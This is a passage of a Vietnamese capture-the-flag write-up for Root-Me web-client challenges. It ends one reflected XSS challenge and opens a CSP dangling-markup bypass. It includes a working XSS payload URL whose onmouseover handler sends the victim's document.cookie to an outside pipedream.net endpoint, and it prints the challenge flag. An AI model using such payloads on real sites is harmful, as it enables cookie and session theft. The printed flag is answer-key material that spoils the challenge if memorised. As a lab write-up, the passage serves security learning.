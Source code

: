 - Gửi cookie qua server thôi:

```
http://challenge01.root-me.org/web-client/ch26/?p=ád%27%20onmouseover=%27document.location=%22https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?%22.concat(document.cookie)
```

![1](1/../img/18/Screenshot%20from%202023-01-28%2022-55-41.png)

- Result:

![1](1/../img/18/Screenshot%20from%202023-01-28%2022-55-01.png)

```
Flag: r3fL3ct3D_XsS_fTw
```


# 19. CSP Bypass - Dangling markup 2

- Đây là một lỗi mà mình có thể thoát ra khỏi value và chèn đoạn HTML nguy hiểm.

- Ở đây có thể dùng \<table\> để tạo request.

![1](1/../img/19/Screenshot%20from%202023-01-29%2012-43-32.png)
